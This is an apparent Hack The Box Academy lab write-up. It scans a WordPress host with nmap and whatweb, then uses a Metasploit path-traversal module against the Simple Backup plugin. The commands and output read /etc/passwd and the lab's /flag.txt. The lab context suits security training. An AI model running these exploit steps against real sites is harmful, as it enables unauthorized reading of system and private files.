

module: getting started
section: public exploits
url: https://academy.hackthebox.com/module/77/section/843

the solution is pretty simple, though i was confused at first that the `nmap` scan didn't reveal any smb service running on the host machine (as the entire section revolves around exploiting the EternalBlue vulnerability).

```
$ nmap -sC -sV 94.237.51.10 -v

...snip...

PORT      STATE    SERVICE VERSION
19/tcp    filtered chargen
22/tcp    open     ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 98:aa:48:28:67:de:3f:ef:39:4a:8b:39:d8:28:96:50 (RSA)
|   256 5d:bc:77:53:c6:a0:72:1c:e4:b0:ca:7b:8a:87:15:b5 (ECDSA)
|_  256 ec:9f:18:af:f9:2e:3c:07:71:23:5c:9d:51:55:b4:d5 (ED25519)
40193/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: HTB Academy
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-robots.txt: 1 disallowed entry
|_/admin-login-page.php
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

a scan against the port given in the challenge reveals yet another http service running:

```
$ nmap -sC -sV 94.237.51.10 -v -p43457

... snip ...

PORT      STATE    SERVICE VERSION
43457/tcp open     http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Getting Started &#8211; Just another WordPress site
|_http-generator: WordPress 5.6.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

whatweb didn't reveal anything that looked suspicious to me as a beginner

```
$ whatweb 94.237.51.10:43457 -v
WhatWeb report for http://94.237.51.10:43457
Status    : 200 OK
Title     : Getting Started &#8211; Just another WordPress site
IP        : 94.237.51.10
Country   : FINLAND, FI

Summary   : Apache[2.4.41], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], MetaGenerator[WordPress 5.6.1], PoweredBy[--], Script, UncommonHeaders[link], WordPress[5.6.1]

Detected Plugins:
[ Apache ]
        The Apache HTTP Server Project is an effort to develop and
        maintain an open-source HTTP server for modern operating
        systems including UNIX and Windows NT. The goal of this
        project is to provide a secure, efficient and extensible
        server that provides HTTP services in sync with the current
        HTTP standards.

        Version      : 2.4.41 (from HTTP Server Header)
        Google Dorks: (3)
        Website     : http://httpd.apache.org/

[ HTML5 ]
        HTML version 5, detected by the doctype declaration


[ HTTPServer ]
        HTTP server header string. This plugin also attempts to
        identify the operating system from the server header.

        OS           : Ubuntu Linux
        String       : Apache/2.4.41 (Ubuntu) (from server string)

[ MetaGenerator ]
        This plugin identifies meta generator tags and extracts its
        value.

        String       : WordPress 5.6.1

[ PoweredBy ]
        This plugin identifies instances of 'Powered by x' text and
        attempts to extract the value for x.

        String       : --

[ Script ]
        This plugin detects instances of script HTML elements and
        returns the script language/type.


[ UncommonHeaders ]
        Uncommon HTTP server headers. The blacklist includes all
        the standard headers and many non standard but common ones.
        Interesting but fairly common headers should have their own
        plugins, eg. x-powered-by, server and x-aspnet-version.
        Info about headers can be found at www.http-stats.com

        String       : link (from headers)

[ WordPress ]
        WordPress is an opensource blogging system commonly used as
        a CMS.

        Version      : 5.6.1
        Aggressive function available (check plugin file or details).
        Google Dorks: (1)
        Website     : http://www.wordpress.org/

HTTP Headers:
        HTTP/1.1 200 OK
        Date: Fri, 15 Dec 2023 18:26:09 GMT
        Server: Apache/2.4.41 (Ubuntu)
        Link: <http://94.237.51.10:43457/index.php/wp-json/>; rel="https://api.w.org/"
        Vary: Accept-Encoding
        Content-Encoding: gzip
        Content-Length: 3353
        Connection: close
        Content-Type: text/html; charset=UTF-8
```

opening the website in a browser gives us this



at this point i wasn't sure if i was missing something, as i was still wondering when that eternalblue context would come in handy. spoiler: it won't...

so impatient me checked the hint:

> Search for plugin exploits

at least i was on the right track. while running `searchsploit simple backup plugin 2.7.10` didn't return any results, googling for `Simple Backup Plugin 2.7.10 vulnerability` brought me here: https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/simple-backup/simple-backup-2710-arbitrary-file-download-via-path-traversal

a "arbitrary file download"-exploit. interesting! since the goal of the task was to download a flag.txt file this sounded promising.

so i started metasploit's `msfconsole` and ran

```
> search simple backup

Matching Modules
================

   #  Name                                               Disclosure Date  Rank    Check  Description
   -  ----                                               ---------------  ----    -----  -----------
   0  auxiliary/scanner/http/wp_simple_backup_file_read                   normal  No     WordPress Simple Backup File Read Vulnerability
```

nice, next up:

```
> use auxiliary/scanner/http/wp_simple_backup_file_read
> show options

Module options (auxiliary/scanner/http/wp_simple_backup_file_read):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DEPTH      6                yes       Traversal Depth (to reach the root folder)
   FILEPATH   /etc/passwd      yes       The path to the file to read
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the wordpress application
   THREADS    1                yes       The number of concurrent threads (max one per host)
   VHOST                       no        HTTP server virtual host

> set RHOSTS 94.237.51.10
RHOSTS => 94.237.51.10
> set RPORT 43457
RPORT => 43457
> run

[+] File saved in: /home/kali/.msf4/loot/20231215194509_default_94.237.51.10_simplebackup.tra_527647.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

this downloaded the /etc/passwd file which didn't give me any specific clues. however, the task was to "download /flag.txt", so i decided to change the filepath to `/flag.txt`

```
> set FILEPATH /flag.txt
FILEPATH => /flag.txt
> run

HTB{... redacted ...}

[+] File saved in: /home/kali/.msf4/loot/20231215195613_default_94.237.51.10_simplebackup.tra_360626.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

and there we have it. my first hack 😎
